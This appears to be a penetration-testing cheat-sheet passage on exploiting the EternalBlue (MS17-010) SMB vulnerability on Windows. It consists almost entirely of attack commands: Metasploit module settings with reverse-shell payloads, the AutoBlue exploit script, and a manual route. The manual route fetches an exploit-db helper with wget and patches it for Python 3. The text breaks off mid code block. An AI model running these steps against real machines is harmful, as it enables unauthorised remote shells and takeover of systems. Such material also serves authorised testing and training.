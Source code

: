 <br /><br />

## EternalBlue (MS17-010)

```sh
msfconsole
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> run
# If you cannot get a shell with the default payloed (windows/x64/meterpreter/reverse_tcp), try to change the payload
msf> set payload payload/generic/shell_reverse_tcp
```

### AutoBlue

**[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)** is an automatic exploit.  
Download the repository and run the following example command.

```sh
python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
```

### Manual Exploiting

You need to have two files - exploit.py, mysmb.py

1. **Download mysmb.py**

    ```sh
    wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

    # Convert DOS to UNIX
    dos2unix mysmb.py
    ```

2. **Edit Some Lines of mysmb.py for Python3**

    You need to edit some code because this exploit is old so only supports **Python2**.

    ```sh
    Line.69
    # transData = b''
    transData = ''

    Line.73
    # transData = ('\x00' * padLen) + str(parameters)
    transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)
